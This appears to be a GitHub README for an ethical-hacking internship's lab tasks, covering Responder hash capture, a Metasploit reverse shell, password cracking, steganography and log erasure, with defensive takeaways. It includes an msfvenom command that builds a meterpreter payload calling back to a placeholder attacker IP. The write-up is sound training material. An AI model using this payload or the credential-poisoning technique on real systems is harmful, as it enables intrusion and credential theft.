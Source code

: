 # System_Hacking
# 🕵️‍♂️ Project: Advanced Attacks & Evasion Techniques

This repository documents my practical cybersecurity internship tasks focused on demonstrating **network poisoning**, **reverse shells**, **password auditing**, **steganography**, and **privacy erasure** as part of the Certified Ethical Hacker v12 practicals.

---

## 📌 Tasks Completed

---

### 1️⃣ SMB/HTTP Poisoning & Hash Capture with Responder

- **Tool:** Responder
- ✅ **Demonstrated:**
  - LLMNR/NBT-NS poisoning to trick clients into sending credentials.
  - Captured **NTLMv2 hashes** and clear-text passwords from SMB and HTTP traffic.
- **Key Insight:** This highlights the risk of insecure network configurations and the need to disable unnecessary protocols like LLMNR.

---

### 2️⃣ Exploiting with Reverse Shell

- **Used:** Metasploit `reverse_tcp` module.
- ✅ **Steps:**
  1. Created a malicious payload with `msfvenom`:
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe > shell.exe
     ```
  2. Delivered the payload to the target machine.
  3. Established a reverse shell connection and gained remote access.
- **Importance:** Shows how attackers exploit known vulnerabilities and maintain foothold.

---

### 3️⃣ Password Auditing & Cracking with L0phtCrack

- ✅ **Performed:**
  - Imported password hashes.
  - Ran dictionary and brute-force attacks.
- **Outcome:** Assessed password strength.
- **Key Takeaway:** Weak passwords are easily cracked; organizations must enforce **strong password policies** and regular auditing.

---

### 4️⃣ Steganography with OpenStego & Steghide

- ✅ **Used:**
  - **OpenStego**: Embed secret messages in image files.
  - **Steghide**: Hide and extract data using passphrases.
- **Demonstrated:** How data can be covertly exfiltrated in innocuous-looking files.
- **Insight:** Highlights the risk of hidden channels and why outbound data flows should be monitored.

---

### 5️⃣ Privacy Erasure with Privacy Eraser

- ✅ **Showcased:**
  - Secure deletion of browser history, cookies, temporary files, and system logs.
  - Overwriting deleted data to prevent recovery.
- **Purpose:** Demonstrates good privacy hygiene and why secure erasure is critical when decommissioning systems or devices.

---

## 🛠️ Tools Used

| Tool            | Purpose                                      |
|-----------------|----------------------------------------------|
| **Responder**   | Network poisoning & credential harvesting    |
| **Metasploit**  | Payload creation & reverse shell exploitation|
| **L0phtCrack**  | Password auditing and cracking               |
| **OpenStego**   | Steganography (hide data in images)          |
| **Steghide**    | Advanced steganography with passphrases      |
| **Privacy Eraser** | Secure removal of traces & sensitive files |

---

## 📚 Key Learnings

- SMB/HTTP poisoning remains an effective threat when insecure protocols are enabled.
- Reverse shells show how vulnerable systems can be leveraged for persistent access.
- Weak passwords are still a major vulnerability — password auditing must be regular.
- Steganography can bypass traditional security tools — data loss prevention is crucial.
- Secure wiping of traces helps protect privacy and mitigates residual risks.

---

## ⚠️ Disclaimer

This project was conducted in a **controlled lab environment** for **educational purposes only**.  
Never attempt these techniques without explicit written permission from the system owner.

---
